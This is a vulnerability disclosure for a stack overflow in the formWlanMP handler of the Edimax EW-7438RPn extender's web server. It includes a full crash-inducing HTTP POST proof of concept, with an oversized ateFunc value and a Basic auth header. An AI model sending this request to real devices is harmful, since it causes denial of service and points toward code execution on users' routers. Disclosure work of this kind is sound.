

# Edimax Vulnerability

Vendor:Edimax

Product:EW-7438RPn

Version:1.31

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in Edimax extender with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formWlanMP` function, `ateFunc、ateGain、ateTxCount、ateChan、ateRate、ateMacID、e2pTxPower1、e2pTxPower2、e2pTxPower3、e2pTxPower4、e2pTxPower5、e2pTxPower6、e2pTxPower7、e2pTx2Power1、e2pTx2Power2、e2pTx2Power3、e2pTx2Power4、e2pTx2Power5、e2pTx2Power6、e2pTx2Power7、ateTxFreqOffset、ateMode、ateBW、ateAntenna、e2pTxFreqOffset、e2pTxPwDeltaB、e2pTxPwDeltaG、e2pTxPwDeltaMix、e2pTxPwDeltaN、readE2P、submit-url` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ateFunc、ateGain、ateTxCount、ateChan、ateRate、ateMacID、e2pTxPower1、e2pTxPower2、e2pTxPower3、e2pTxPower4、e2pTxPower5、e2pTxPower6、e2pTxPower7、e2pTx2Power1、e2pTx2Power2、e2pTx2Power3、e2pTx2Power4、e2pTx2Power5、e2pTx2Power6、e2pTx2Power7、ateTxFreqOffset、ateMode、ateBW、ateAntenna、e2pTxFreqOffset、e2pTxPwDeltaB、e2pTxPwDeltaG、e2pTxPwDeltaMix、e2pTxPwDeltaN、readE2P、submit-url` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `ateFunc` as **aaaaa......**, and the router will crash, such as:

```http
POST /goform/formWlanMP HTTP/1.1
Host: 192.168.0.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 2170
Origin: http://192.168.0.4
Authorization: Basic YWRtaW46MTIzNA==
Connection: keep-alive
Referer: http://192.168.0.4/wlanMP.asp
Cookie: language=16
Upgrade-Insecure-Requests: 1
Priority: u=0, i

submit-url=%2FwlanMP.asp&ateFunc=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&ateGain=10&ateTxCount=200&ateChan=1&ateAntenna=1&ateMode=0&ateRate=3&ateTxFreqOffset=FF&e2pTxFreqOffset=FF&ateBW=1&e2pChan1=46&e2pTxPower1=0C0C&e2pChan2=48&e2pTxPower2=0C0C&e2pChan3=4A&e2pTxPower3=0C0C&e2pChan4=4C&e2pTxPower4=0C0C&e2pChan5=4E&e2pTxPower5=0C0C&e2pChan6=50&e2pTxPower6=0C0C&e2pChan7=52&e2pTxPower7=0C0C&e2pTx2Power1=0C0C&e2pTx2Power2=0C0C&e2pTx2Power3=0C0C&e2pTx2Power4=0C0C&e2pTx2Power5=0C0C&e2pTx2Power6=0C0C&e2pTx2Power7=0C0C&e2pTxPwDeltaB=FF&e2pTxPwDeltaG=FF&e2pTxPwDeltaN=FF&e2pTxPwDeltaMix=FFFF&readE2P=0C&e2pValue=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
